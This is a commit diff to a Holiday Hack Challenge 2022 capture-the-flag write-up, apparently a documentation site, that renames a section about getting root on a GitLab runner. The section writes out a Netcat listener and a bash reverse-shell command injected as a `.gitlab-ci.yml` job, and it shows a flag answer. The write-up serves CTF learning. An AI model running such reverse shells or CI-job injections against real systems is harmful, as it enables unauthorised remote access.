

Before and after one commit to crahan/HolidayHackChallenge2022, an MkDocs documentation site: the page built from docs/objectives/o7.md, in a window 1280 px wide and 900 px high, scrolled down 4842 px. Shown: the part 155-519 px from the top of the window. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded.

Commit message:
Fix typos

```diff
--- a/docs/objectives/o7.md
+++ b/docs/objectives/o7.md
@@ -162,12 +162,12 @@
 !!! success "Answer"
     oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
 
-!!! note "Getting root on *gitlab.flag.net.internal*"
-    The same `.gitlab-ci.yml` technique outlined above can also be used to access *gitlab.flag.net.internal*. The only caveat is that the Gitlab host isn't running an SSH server to connect to, so we'll need to use a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) instead. Start by splitting the terminal window in two by running `tmux` and pressing ++ctrl+b++, followed by ++dblquote++. This gives us two command shells that we can switch between by pressing ++ctrl+b++, followed by ++up++ or ++down++.
+!!! note "Getting root on *gitlab-runner.flag.net.internal*"
+    The same `.gitlab-ci.yml` technique outlined above can also be used to access *gitlab-runner.flag.net.internal*. The only caveat is that this host isn't running an SSH server to connect to, so we'll need to use a [reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) instead. Start by splitting the terminal window in two by running `tmux` and pressing ++ctrl+b++, followed by ++dblquote++. This gives us two command shells that we can switch between by pressing ++ctrl+b++, followed by ++up++ or ++down++.
 
-    In the first shell, start a Netcat listener using `nc -lvp 8080` to receive the incoming reverse shell connection. In the other shell, add a new job to `.gitlab-ci.yml` that initiates the reverse shell using `/bin/bash -i >& /dev/tcp/172.18.0.99/8080 0>&1`. Commit and push your changes to the Gitlab host and wait for the automation to run. After a few seconds the connection will be established and we'll have *root* acces on the Gitlab server. :sunglasses:
+    In the first shell, start a Netcat listener using `nc -lvp 8080` to receive the incoming reverse shell connection. In the other shell, add a new job to `.gitlab-ci.yml` that initiates the reverse shell using `/bin/bash -i >& /dev/tcp/172.18.0.99/8080 0>&1`. Commit and push your changes to the Gitlab host and wait for the automation to run. After a few seconds the connection will be established and we'll have *root* acces on the Gitlab Runner server. :sunglasses:
 
-    ![Root on Gitlab](../img/objectives/o7/root_on_gitlab.png){ class=border }
+    ![Root on Gitlab Runner](../img/objectives/o7/root_on_gitlab_runner.png){ class=border }
 
 
 ## Response
```
Also changed, not shown: docs/img/objectives/o7/root_on_gitlab_runner.png (renamed from docs/img/objectives/o7/root_on_gitlab.png).
